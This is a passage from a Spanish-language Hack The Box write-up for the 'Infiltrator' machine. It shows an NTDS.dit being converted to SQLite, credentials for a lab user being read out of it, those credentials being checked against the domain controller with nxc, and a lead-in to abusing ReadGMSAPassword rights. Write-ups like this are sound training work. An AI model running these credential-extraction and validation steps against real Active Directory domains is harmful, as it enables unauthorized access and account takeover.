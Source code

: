 Dado que no logramos extraer ningún tipo de información ni ninguna credencial válida en el `NTDS.dit`. Descubrimos la siguiente herramienta que nos transforma el `NTDS.dit` en un archivo `DB` para abrirlo con `sqlitebrowser`.

```bash
❯ ntdsdotsqlite Active\ Directory/ntds.dit --system registry/SYSTEM -o ntds.db
100%|██████████████████████████████████████████████| 3823/3823 [00:00<00:00, 5123.30it/s]

❯ ls -l ntds.db
.rw-rw-r-- kali kali 136 KB Sat Jan 18 02:38:45 2025  ntds.db

❯ sqlitebrowser ntds.db
```

Al revisar en los diferentes campos, logramos verificar que aparece lo que parecen ser unas credenciales para el usuario `lan_managment@infiltrator.htb`.

<figure><img src="../../../.gitbook/assets/imagen (40).png" alt=""><figcaption></figcaption></figure>

Validaremos si estas credenciales siguen siendo válidas para el usuario encontrado. Efectivamente estas credenciales nos sirven correctamente.

```bash
❯ nxc smb dc01.infiltrator.htb -u 'lan_managment' -p 'l@n_M@an!1331'
SMB         10.10.11.31     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.31     445    DC01             [+] infiltrator.htb\lan_managment:l@n_M@an!1331 
```

### Abusing ReadGMSAPassword Rights

Al revisar nuevamente en `BloodHound`, verificamos que el usuario que disponemos, tiene privilegios de `ReadGMSAPassword` sobre el objeto `infiltrator_svc$@infiltrator.htb`.

<figure><img src="../../../.gitbook/assets/3826_vmware_SZ2AxABKSL.png" alt=""><figcaption></figcaption></figure>
